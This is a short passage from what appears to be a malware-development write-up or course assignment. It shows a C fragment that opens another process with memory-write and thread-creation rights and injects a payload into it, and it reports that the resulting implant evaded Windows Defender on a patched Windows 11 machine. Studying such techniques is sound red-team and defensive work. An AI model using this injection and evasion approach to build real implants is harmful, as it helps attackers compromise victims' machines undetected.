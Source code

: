```c
hProc = pOpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
						PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
						FALSE, (DWORD) pid);
	
		if (hProc != NULL) {
			Inject(hProc, exec_mem, payload_len);
			pCloseHandle(hProc);
		}
```

## Bypasses

`implant.exe` was executed against a fully updated and patched Windows 11 VM, which didn't flag it as malicious!

![Desktop View](/assets/img/maldev-essentials-assignment/windef.png){: width="972" height="589" }
_Windows Defender Bypass photo_
